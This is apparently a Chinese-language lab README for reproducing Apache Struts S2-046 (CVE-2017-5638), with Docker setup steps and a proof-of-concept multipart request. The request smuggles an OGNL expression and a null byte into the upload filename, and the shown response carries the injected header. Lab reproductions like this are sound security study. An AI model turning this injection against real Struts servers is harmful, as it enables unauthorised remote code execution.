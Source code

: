 ##  S2-046（CVE-2017-5638）
https://cwiki.apache.org/confluence/display/WW/S2-046

受影响：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
Jakarta Multipart解析器存在安全漏洞，该漏洞源于程序没有正确处理文件上传。攻击者可以通过构造HTTP请求头中的Content-Type值可能造成远程任意代码执行，S2-046与S2-045漏洞属于同一类型

## 测试环境搭建
```
docker-compose build
docker-compose up -d
```


## POC
```
 /bin/sh b.sh a a a

 脚本测试
 修改url=http://10.160.11.191:8080/fileupload/doUpload.action

```

```
POST /fileupload/doUpload.action HTTP/1.1
Host: 10.160.11.191:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:8.0) Gecko/20100101 Firefox/8.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Proxy-Connection: keep-alive
Cookie: JSESSIONID=AE03668DB7C99F9A53F1AAB6EEDB516D
Content-Type: multipart/form-data; boundary=---------------------------146043902153
Content-Length: 393

-----------------------------146043902153
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}注意这里是一个16进制的\x00b,使用burpsuite hex编辑插入byte和字符\b"

Content-Type: application/octet-stream

555
-----------------------------146043902153
Content-Disposition: form-data; name="caption"

ah
-----------------------------146043902153--
```
HTTP/1.1 200 
X-Test: Kaboom (响应头被插入)
Set-Cookie: JSESSIONID=3037034F2B3566F019F56B200F4EAA37; Path=/; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Date: Wed, 11 Oct 2017 10:11:43 GMT
Content-Length: 10823

## 参考：

* (https://thief.one/2017/03/21/Struts2-046%E6%BC%8F%E6%B4%9E/)




